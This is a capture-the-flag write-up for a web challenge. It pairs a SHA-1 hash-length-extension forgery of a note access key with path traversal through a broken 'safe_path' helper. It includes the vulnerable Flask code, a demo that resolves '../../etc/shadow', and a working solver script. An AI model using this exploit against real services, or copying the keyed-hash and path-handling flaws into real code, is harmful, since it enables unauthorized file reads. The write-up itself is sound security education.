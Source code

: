 # cybercybernote

## Description

```
Somebody has leaked files from one of our servers and we have gotten wind that it might have happened through our super secure cyber note taking service. Can you figure out how those darn criminals cybered through those notes unauthorized?
```

## Categories

- `crypto`

## Provided Files

- `cybercybernote.zip`

## Solve Process

This challenge was a combination of path traversal and abusing hash-length extension on sha1

```py
# --- snip --- #
@app.route('/', methods=['GET'])
def index():
    notes = list_notes()

    return render_template('index.html', notes=notes)

@app.route('/view')
def view_note():
    params = parse_qs(request.query_string)

    filename = params.get(b'filename', [b''])[0]
    provided_key = params.get(b'key', [b''])[0]

    if not filename or not provided_key:
        return abort(404)

    return render_template('view.html', filename=filename, content=get_note(filename, provided_key))
# --- snip --- #
def ensure_string(value):
    if isinstance(value, bytes):
        return value.decode(errors='ignore')
    return value

def safe_path(*parts):
    return os.path.normpath(os.path.join(*parts))
# --- snip --- #
def generate_access_key(filename):
    if isinstance(filename, str):
        filename = filename.encode()
    return sha1(SECRET_KEY + filename).hexdigest()

def list_notes():
    notes = []

    for filename in os.listdir(NOTES_DIR):
        if filename.endswith('.txt'):
            notes.append((filename, generate_access_key(filename)))

    return notes


def get_note(filename, access_key):
    print(generate_access_key(filename))
    if ensure_string(access_key) != generate_access_key(filename):
        raise PermissionError(f"Access denied for note '{filename}'")

    filepath = safe_path(NOTES_DIR, ensure_string(filename))
    if not os.path.exists(filepath):
        raise FileNotFoundError(f"Note '{filename}' not found")

    with open(filepath, 'r') as f:
        content = f.read()

    return content
# --- snip --- #
```

A lot of code to digest, but as we see in the above snippets, the `/` route calls `list_note()`, which we can abuse to get a file with its access key that is generate by `generate_access_key()`.

Having this knowledge, we know that SHA1 which is being used here is vulnerable to a [hash-length extension](https://en.wikipedia.org/wiki/Length_extension_attack). In short terms this means, if I have one output of the hash function with a known input, I can generate a second valid hash by extending the input to the hash function accordingly.

I found a great python library to do this, so I don't have to code it from scratch (because I'm lazy), which is called [hlextend](https://github.com/stephenbradshaw/hlextend).

The second things to spot in the application code is that `safe_path` is actually not doing its job at all because it still allows for path traversal.

```bash
Python 3.13.3 on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> def safe_path(*parts):
...     return os.path.normpath(os.path.join(*parts))
>>> safe_path("/home/user/", "../../etc/shadow")
'/etc/shadow'
```

This is practially all the knowledge we need to write our final solver script.

```py
# https://github.com/stephenbradshaw/hlextend

import requests
import hlextend
from urllib.parse import quote

FILENAME = "/../../flag.txt"
KNOWN_FILE = "B.txt"
KNOWN_HASH = "e0c9c6e7147e40bb8ef6665c9b8363d63e30cd79"
SHA = hlextend.new('sha1')
EXTENSION = SHA.extend(FILENAME.encode(), KNOWN_FILE.encode(), 16, KNOWN_HASH)
DIGEST = SHA.hexdigest()

CHALLENGE_HOST = "yv9s2tubonndkb47.dyn.acsc.land"
REQUEST_PAYLOAD = f"view?filename={quote(EXTENSION)}&key={DIGEST}"

print(f"[+] Payload is: {REQUEST_PAYLOAD}")
print("[+] Sending payload")
RESPONE = requests.get(url=f"https://{CHALLENGE_HOST}/{REQUEST_PAYLOAD}", allow_redirects=True)
if RESPONE.status_code == 200:
    print("[+] Success")
    print(f"[+] Flag: {RESPONE.text}")
else:
    print(f"[-] Payload returned with status: {RESPONE.status_code}")
    print(f"[-] Error: {RESPONE.text}")
```

This solver script is a bit dirtier than most of the ones I write but it does the job, which yields us another flag.
